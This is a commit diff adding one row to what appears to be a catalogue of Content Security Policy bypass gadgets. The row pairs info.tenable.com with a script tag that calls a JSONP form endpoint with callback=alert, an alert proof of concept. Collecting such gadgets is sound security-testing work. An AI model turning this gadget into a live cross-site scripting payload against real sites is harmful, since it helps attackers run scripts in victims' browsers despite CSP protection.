

Before and after one commit to ACK-J/CSP-B-Gone, a TSV file: data.tsv, drawn as a sheet; only a part is shown, gaps mark what is left out; the shorter side is filled out with more unchanged rows; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

Commit message:
added tennable endpoint

```diff
--- a/data.tsv
+++ b/data.tsv
+row 508: info.tenable.com <script src="https://info.tenable.com/index.php/form/getForm?munchkinId=934-XQB-568&form=10616&url=https%3A%2F%2Fwww.tenable.com%2Fproducts%2Fnessus&callback=alert&_=1734632951358"></script>
```
